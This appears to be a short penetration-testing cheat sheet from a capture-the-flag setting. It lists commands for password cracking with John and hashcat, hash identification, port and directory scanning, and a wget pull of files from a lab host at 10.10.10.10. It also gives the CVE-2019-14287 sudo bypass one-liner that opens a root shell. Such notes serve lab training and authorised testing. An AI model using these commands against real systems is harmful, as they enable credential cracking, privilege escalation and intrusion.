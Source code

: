 ## Use John

`john #path/to/pass`

## Use hashid

`hashid -m {hash}`

## Use hashcat

`hashcat -m 0 hash.txt -a 0 /home/kali/Documents/rockyou.txt`

## wget

`wget http://10.10.10.10:8000/file` On Linux
\
`wget http://10.10.10.10:8000/file file` On Window, we need to name the output file

## **CVE-2019-14287**

[https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502)

`sudo -u#-1 /bin/bash`

## Rustscan

syntax:

`rustscan -a http://10.10.10.10 — -A`

## Feroxbuster

`feroxbuster -u http://10.10.10.10 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt`

`-s` status code, show only a particular code (`100,200,300`)

### Filter bad response code

`feroxbuster -u http://sea.htb -k -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -C 401 404 400 501 503 505 403 -o /home/kali/#path`

`-u` url

`-k` disables SSL certificate verification.

`-w` wordlist

`-C` filter status code out

`-o` output

## FFUF
